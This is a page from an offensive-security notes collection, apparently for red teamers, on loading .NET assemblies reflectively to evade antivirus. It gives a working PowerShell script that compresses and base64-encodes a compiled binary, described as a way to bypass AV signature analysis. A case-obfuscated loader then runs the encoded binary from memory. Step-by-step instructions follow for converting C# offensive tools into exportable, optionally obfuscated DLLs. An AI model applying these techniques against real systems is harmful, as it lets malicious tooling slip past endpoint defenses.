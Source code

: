 # .NET Reflective Assembly

- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("\path\to\csharp\binary.exe")
[System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($output, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$output.Close()
[byte[]] $byteOutArray = $output.ToArray()
$encodedZipped = [System.Convert]::ToBase64String($byteOutArray)
$encodedZipped > b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

```powershell
function Invoke-S0m3B1n4ry
{
	$a = NeW-obJeCt sYsTeM.Io.MEMoRysTREaM(,[coNveRT]::frombaSE64sTrINg("..."))
	$DEcoMpRESSEd = nEw-obJEct SYsteM.io.CompREsSION.gzIPsTreaM($a, [sYstEM.iO.COMPrEssION.CompRESsIonMODE]::decOmPRESs)
	$OUtpuT = New-oBjeCt SySTeM.IO.MEmorYstREam
	$dEcoMPReSSEd.copYto( $outPUt )
	[BYte[]]$ByTEOuTarrAy = $OUtPUT.toarrAY()
	$RAs = [sySTeM.REfLecTIOn.ASSEmBlY]::load($bYTeOUTArraY)
	$olDconsOLeOuT = [CONSoLe]::out
	$StRInGwritEr = nEW-ObJEct System.IO.STRiNgwRiTEr
	[cONSOLE]::sEtOut($STringWRITer)

	[S0m3B1n4ry.Program]::maiN([string[]]$args)

	[cOnsolE]::sEtout($olDCONsOleout)
	$resUlTs = $sTRInGWRiter.TOSTring()
	$rESuLTs
}
```




## C\# to Unmanaged DLL
* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
